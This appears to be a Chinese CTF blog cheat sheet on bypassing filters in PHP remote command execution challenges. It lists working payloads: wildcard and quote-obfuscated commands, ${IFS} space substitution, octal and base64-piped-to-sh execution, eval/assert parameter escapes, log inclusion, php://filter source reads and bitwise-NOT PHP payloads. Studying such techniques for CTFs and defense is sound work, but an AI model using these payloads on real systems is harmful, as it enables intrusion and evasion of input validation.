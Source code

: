 ```yaml
---
title: RCE PHP远程命令执行绕过
date: 2024-05-15 21:53:24
permalink: /pages/96f5e6/
categories:
  - web
tags:
  - rce
  - php
author: 
  name: Cola
  link: https://the0n3.top
---
```



## 通配符

绕过文件名/扩展名的限制

```php
tac f*
cat f?ag.p?p
less f*
more f*
```

## php函数执行命令

system函数会将参数字符串作为系统命令执行

```shell
system("ls")
```

类似功能函数，eval，passthru，assert，exec，shell_exec，pre_match，create_function等等

参考

[PHP敏感函数](https://blog.csdn.net/FINYIE/article/details/128284692)


## 逃逸

```php
# 检测函数waf()
eval(waf($_GET[cmd]));
```

题目对传参的变量要求很严格但没有严格过滤时，可以尝试逃逸
```
# 命令逃逸  
?cmd=$_GET[a]($_GET[b]);&a=assert&b=phpinfo()  
日志包含  
?cmd=include$_GET[1];&1=/var/log/apache2/access.log  
# 伪协议读文件
?cmd=include$_GET[1];&1=php://filter/convert.base64-encode/resource=index.php
# 其他
```

## 反引号，echo执行代码  

```bash
echo `ls`
```

反引号中字符串作为命令执行，但是没有回显，前面补充一个`echo`，如果命令是有执行结果的，可以直接打印出来

```php
eval("echo `ls`;");
```

对于没有回显的RCE，善用一些带有文件操作的命令，例如`cp`,`mv`,`tee`,`>`等，把结果写进文件或复制、重命名目标文件，解除限制

**重定向“>”符号很好玩，把命令的结果打印到新的文件中**，详细看[写文件](http://the0n3.top//pages/a12979/)

## 拼接

在命令行定义变量，拼接食用

```bash
a=l;b=s;$a$b;
```

![3](https://the0n3.top/medias/ctfshow_web30_命令执行/3.png)

## 空格绕过

注意：其中的url编码只有在get传参时能使用

```url
%09     # tab的url编码
%0a     # 换行url编码
${IFS}  # bash中的分隔符，空格，tab，换行符
$IFS    # 同上
$IFS$9  # 同上
<       # 重定向
>      # 重定向
{命令,参数} # 例如，{ls,/} 
```

**以上，由于大部分web题目的基础镜像使用了`Apline Linux`，shell环境比较基础，<，<>重定向不能和通配符？同时使用，如果是`ubuntu`环境，那么你可以尝试一下**，具体参考[刷题疑问-web容器环境](/pages/47314c/)


**%09，%0Atab和换行的url编码，只有明确ban了才不能用，如果只是ban数字和字母，不妨碍继续使用**

## 转义绕过

在一些时候开发者(出题人)，可能只做了简单的关键词过滤或过滤逻辑不严格时，你或许可以通过转义字符绕过(这里转义字符一定不要有实际转义)

你可以在终端尝试，在加上反斜杠后不会转义的字符前加上反斜杠，例如，l，c没有实际意义的转义，所以转义后还是本身  
**Tip**：转义在终端类环境下可用，例如system("")函数，只有一层php的eval()函数不能直接执行linux命令，配合反引号可以执行，但不会有回显，可以再配合一次重定向写文件

payload：c=system("ta\c f\lag.php");

```php
$c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

当正则匹配字段/命令限制较多时，你可以多一个选择

[参考](linux/04tran-meaning.md)


## 单双引号

在linux环境下，在要执行的命令中加入''单引号 双引号""，并不会解析，命令会正常执行，这也可以作为绕过关键字限制的一种方法

```bash
p''w''d
l''s
pw""d
l""s
```

等等类似命令都可以正常执行


## 八进制

在linux环境下，把命令转化为八进制数，使用$'\八进制数'，命令会正确执行，注意：命令不能带有参数  例如ls -lah，tac /flag中-lah,/flag都算参数

更详细内容可以看**探姬**的[bashfuck](https://github.com/ProbiusOfficial/bashFuck)这个项目

ls命令的八进制数

```bash
$'\154\163'
```

## {命令,参数}

在linux下可以使用{ls,/}格式执行命令

```bash
{ls,/}
```

## bin目录下工具

在代码执行限制时，后期练习可能ban掉所有字母，如果数字，通配符？和斜杠/还能用，可以使用bin目录下带数字的工具，例如/bin/base64

```bash
/???/????64${IFS}????.???
```

## 编码，管道符

在命令行使用ls的base64编码执行

```bash
echo bHM=|base64 -d|sh
```

解析：  
- 1.通过输出流echo打印base64编码，传递给管道符的第二部分
- 2.base64进行解码，得到原始命令'ls'，传递给第三部分
- 3.sh在命令行中执行这个原始命令

![2](https://the0n3.top/medias/ctfshow_web30_命令执行/2.png)

在空格被ban时，可以使用${IFS}，$IFS，$IFS$9填充空格

```bash
echo$IFSbHM=|base64$IFS$9-d|sh
```

## 取反

```php
<?php
highlight_file(__FILE__);
$cmd = "phpinfo();";
echo urlencode((~$cmd));
# (~%8F%97%8F%96%91%99%90)();
eval($_GET[1]);
```

## 自增

参考：

[自增，取反，异或 实现RCE](https://blog.csdn.net/whale_waves/article/details/136365419)

## 异或

大佬写的写的非常好了，又新又好😍，直接放参考了

参考：

[无字母rce](https://blog.csdn.net/m0_64180167/article/details/134971320)

[无字母rce](https://arsenetang.github.io/2021/07/28/RCE%E7%AF%87%E4%B9%8B%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97rce/)

你可以阅读同类型其他大佬内容文章：

[命令执行总结](https://blog.csdn.net/qq_45927819/article/details/109671655#PATH_107)